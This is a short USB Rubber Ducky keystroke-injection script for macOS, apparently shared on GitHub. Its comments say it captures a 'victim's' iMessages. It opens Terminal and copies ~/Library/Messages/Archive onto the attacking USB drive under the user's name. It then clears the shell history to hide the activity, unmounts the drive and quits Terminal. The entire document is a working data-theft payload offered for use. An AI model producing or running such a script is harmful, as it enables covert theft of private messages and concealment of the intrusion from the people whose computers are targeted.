 
***
`DELAY 500
GUI SPACE
DELAY 150
STRING Terminal
ENTER
DELAY 300
REM Author: Alex Jay (Minecracker627) (5A13X99)
REM This script captures iMessages and puts it into 
REM a folder named automatically to the victims username
STRING cp -r ~/Library/Messages/Archive /Volumes/RubberDucky/$USER/
ENTER
STRING history -c
ENTER
STRING diskutil umount /Volumes/RubberDucky
ENTER
DELAY 500
STRING history -c
ENTER
STRING echo 5A13X99
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 250
GUI q
`